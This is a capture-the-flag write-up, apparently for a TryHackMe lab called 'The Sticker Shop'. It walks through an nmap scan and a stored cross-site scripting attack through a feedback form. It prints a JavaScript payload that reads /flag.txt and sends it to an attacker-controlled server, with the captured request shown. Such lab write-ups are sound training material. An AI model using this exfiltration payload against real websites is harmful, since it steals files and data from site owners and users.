




# The Sticker Shop

## Overview

During this Capture the Flag (CTF) challenge, the goal was to exploit vulnerabilities in **The Sticker Shop** web application. The primary vulnerability identified was **Cross-Site Scripting (XSS)**, which allowed the injection of malicious scripts, ultimately leading to the extraction of the flag located at `/flag.txt`.

---

## Network Scan

### Nmap Scan

A network scan was performed on the target machine at IP `10.10.181.208` to gather information about open ports and services. The following results were obtained:

```txt
$ nmap -A 10.10.181.208

Nmap Scan Results for 10.10.181.208

Host is up (0.24s latency).

PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
8080/tcp open http-proxy Werkzeug/3.0.1 Python/3.8.10

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done at Thu Jul 10 23:55:20 2025 -- 1 IP address (1 host up) scanned in 143.61 seconds

```

The scan revealed two open ports:

- **Port 22**: SSH service
- **Port 8080**: HTTP proxy service running on **Werkzeug/3.0.1** and **Python/3.8.10**

## Website Interaction

Upon visiting `http://10.10.181.208:8080`, the homepage displayed two stickers and their respective prices.



Efforts to access the **flag** at `/flag.txt` returned a **401 Unauthorized** status, indicating that the flag was secured and could not be accessed directly.



---

## Feedback Form and XSS Testing



The application features a feedback form that allows users to submit comments. To test for **Cross-Site Scripting (XSS)** vulnerabilities, a simple payload was injected:

```html

```

This payload attempts to load an image from an external server, allowing for the detection of improper input handling.

A basic HTTP server was set up at http://10.8.84.12:8081 to monitor incoming requests:

```bash
python3 -m http.server 8081

10.10.181.208 - - [10/Jul/2025 13:52:30] "GET / HTTP/1.1" 200 -
10.10.181.208 - - [10/Jul/2025 13:52:41] "GET / HTTP/1.1" 200 -
```

This confirmed that the site was vulnerable to XSS, as the payload was executed and the request was made to the server.

## Exploiting XSS to Steal Flag



The input field was vulnerable to XSS, allowing the injection of a JavaScript payload to fetch the contents of the `/flag.txt` file. Since only GET requests were allowed, the flag could not be directly posted but could be fetched and sent via a redirect.

The following JavaScript payload was crafted:

```js
<script>
  fetch('/flag.txt').then(response=>response.text()) .then(data=>{' '}
  {
    (window.location.href =
      'http://10.8.84.12:8081/?flag' + encodeURIComponent(data))
  }
  )
</script>
```

This script makes a GET request to /flag.txt, retrieves the flag, and redirects to an external server (http://10.8.84.12:8081), appending the flag as a URL parameter.

The payload was submitted through the feedback form, and the following request was captured on the server:

```python
10.10.181.208 - - [10/Jul/2025 14:05:41] "GET /?flag=THM%7B83789a69074f6364a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
```
